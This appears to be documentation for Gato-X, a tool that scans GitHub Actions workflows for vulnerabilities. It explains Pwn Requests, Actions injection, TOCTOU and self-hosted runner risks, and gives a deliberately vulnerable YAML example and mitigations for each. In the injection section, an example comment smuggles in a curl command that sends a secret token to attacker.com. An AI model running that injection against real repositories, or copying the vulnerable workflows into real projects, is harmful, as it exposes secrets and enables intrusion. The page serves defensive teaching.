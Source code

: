 # Understanding GitHub Actions Vulnerabilities

This page provides detailed explanations of the vulnerability types that Gato-X can identify in GitHub Actions workflows.

## Pwn Requests

Pwn Requests are a class of vulnerabilities that allow attackers to execute code in a GitHub Actions workflow by submitting a pull request.

### How They Work

1. A repository has a workflow that uses the `pull_request_target` event trigger
2. The workflow accesses user-controlled content from the pull request
3. The workflow executes this content with elevated permissions

### Example Vulnerable Workflow

```yaml
name: Vulnerable Workflow
on:
  pull_request_target:
    types: [opened, synchronize]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - name: Run script from PR
        run: |
          chmod +x ./scripts/build.sh
          ./scripts/build.sh
```

### Why It's Dangerous

The `pull_request_target` event runs with the permissions of the target repository, including access to secrets. By checking out code from the pull request and executing it, the workflow allows attackers to run arbitrary code with these elevated permissions.

## Actions Injection

Actions Injection vulnerabilities allow attackers to execute arbitrary code by injecting malicious input into workflow steps.

### How They Work

1. A workflow uses user-controlled input (like issue comments or PR titles)
2. This input is used directly in commands or scripts without proper validation
3. Attackers can inject shell commands that will be executed by the workflow

### Example Vulnerable Workflow

```yaml
name: Issue Comment Handler
on:
  issue_comment:
    types: [created]

jobs:
  process-comment:
    if: contains(github.event.comment.body, '/deploy')
    runs-on: ubuntu-latest
    steps:
      - name: Process deployment request
        run: |
          ENVIRONMENT=$(echo "${{ github.event.comment.body }}" | awk '{print $2}')
          ./deploy.sh $ENVIRONMENT
```

### Why It's Dangerous

In this example, an attacker could comment `/deploy prod; curl http://attacker.com/exfil?token=$SECRET_TOKEN;` to inject additional commands that would be executed by the workflow.

## TOCTOU Vulnerabilities

Time-of-Check to Time-of-Use (TOCTOU) vulnerabilities occur when there's a gap between when a workflow checks conditions and when it uses resources.

### How They Work

1. A workflow checks conditions (like branch protection or permissions)
2. Between the check and the execution, the conditions change
3. The workflow executes with assumptions that are no longer valid

### Example Vulnerable Workflow

```yaml
name: TOCTOU Vulnerable Workflow
on:
  workflow_dispatch:
    inputs:
      branch:
        description: 'Branch to deploy'
        required: true

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
        with:
          ref: ${{ github.event.inputs.branch }}
      - name: Check if user has write access
        id: check_permissions
        run: |
          # Check if user has write access to the branch
          if [[ $(gh api repos/${{ github.repository }}/collaborators/${{ github.actor }}/permission | jq -r .permission) == "write" ]]; then
            echo "::set-output name=has_permission::true"
          else
            echo "::set-output name=has_permission::false"
          fi
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}
      - name: Deploy
        if: steps.check_permissions.outputs.has_permission == 'true'
        run: ./deploy.sh
        env:
          DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}
```

### Why It's Dangerous

In this example, an attacker could have write access when the check is performed, but lose it before the deployment step. Alternatively, they could modify the branch content after the check but before the deployment.

## Self-Hosted Runner Vulnerabilities

Self-hosted runners can introduce various security risks, especially when they're configured to run workflows from public repositories or forks.

### How They Work

1. A repository uses self-hosted runners for its workflows
2. The runners are configured to run workflows from public repositories or forks
3. Attackers can submit workflows that execute on these runners

### Example Vulnerable Configuration

```yaml
name: CI on Self-Hosted Runner
on:
  pull_request:
    branches: [ main ]

jobs:
  build:
    runs-on: self-hosted
    steps:
      - uses: actions/checkout@v3
      - name: Build and test
        run: |
          npm install
          npm test
```

### Why It's Dangerous

If this workflow runs on pull requests from forks without approval requirements, attackers can submit malicious workflows that execute on the self-hosted runner. This could lead to:

1. Access to secrets available to the runner
2. Access to the runner's file system and network
3. Potential lateral movement within the organization's network
4. Persistence through the Runner-on-Runner technique

## Mitigation Strategies

### For Pwn Requests

- Avoid using `pull_request_target` when possible
- If you must use it, don't check out untrusted code
- Use `github.base_ref` instead of `github.event.pull_request.head.sha`
- Implement proper input validation

### For Actions Injection

- Validate and sanitize all user inputs
- Use explicit allow-lists for permitted values
- Avoid using user input directly in commands
- Use GitHub's `contains()` function with an array of allowed values

### For TOCTOU Vulnerabilities

- Minimize the time between checks and actions
- Re-verify critical conditions before executing sensitive operations
- Use GitHub's built-in permission checks when possible

### For Self-Hosted Runners

- Use ephemeral runners that are destroyed after each job
- Implement approval requirements for workflows from forks
- Run runners in isolated environments (containers or VMs)
- Apply the principle of least privilege to runner permissions
